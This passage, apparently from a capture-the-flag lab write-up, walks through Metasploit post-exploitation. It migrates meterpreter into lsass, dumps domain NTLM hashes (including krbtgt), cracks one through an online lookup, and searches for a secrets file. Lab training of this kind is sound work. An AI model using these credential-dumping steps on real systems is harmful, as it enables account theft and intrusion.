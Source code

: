 ```bash
 828   752   svchost.exe    x64   0        NT AUTHORITY\NETWORK S  C:\Windows\System32\svc
                                           ERVICE                  host.exe
 840   688   dwm.exe        x64   1        Window Manager\DWM-1    C:\Windows\System32\dwm
                                                                   .exe
 944   752   svchost.exe    x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\svc
                                                                   host.exe
```

Bingo, we found the lsass process with pid `764`. Let's move that process so we can proceed with our next assignment:

```bash
meterpreter > migrate 764
[*] Migrating from 1524 to 764...
[*] Migration completed successfully.
meterpreter >
```

Now from the lsass process we should be able to dump the hashes:

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:5164d49b0ced05d3249842f7e420590e:::
```

Now, we could attempt to crack the hash our selves using something like John the Ripper or hashcat.....or....we coul leverage something like [Crackstation](crackstation.net).net. I chose the later, and what do you know:

```bash
              Hash	              Type	Result
69596c7aa1e8daee17f8e78870e25a5c	NTLM	Trustno1
```

That answers that question!

## secrets.txt file

Now we have to answer 2 related questions about a `secrets.txt` file.

Let's find it leveraging the meterpreter's search feature:

```bash
meterpreter > search -f secrets.txt
Found 1 result...
    c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt
```
